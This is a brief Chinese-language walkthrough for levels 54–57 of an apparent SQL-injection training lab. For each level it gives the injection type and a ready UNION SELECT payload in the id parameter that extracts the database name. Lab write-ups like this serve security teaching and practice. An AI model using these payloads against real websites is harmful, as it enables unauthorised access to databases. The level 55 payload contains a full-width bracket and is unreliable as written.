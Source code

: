 # 54-57
## 第五十四关
GET型注入，where字段，字符型,无waf，union注入即可，将获取到的值填到提交框即可
```
?id=1111%27union%20select%201,database(),3--+
```
## 第五十五关
GET型注入，where字段，`()`包裹数字型,无waf，union注入即可，将获取到的值填到提交框即可
```
?id=1111）union%20select%201,database(),3
```
## 第五十六关
GET型注入，where字段，`('')`包裹字符型,无waf，union注入即可，将获取到的值填到提交框即可
```
?id=1111%27)union%20select%201,database(),3--+
```
## 第五十七关
GET型注入，where字段，`""`包裹字符型,无waf，union注入即可，将获取到的值填到提交框即可
```
?id=1111%22union%20select%201,database(),3--+
```
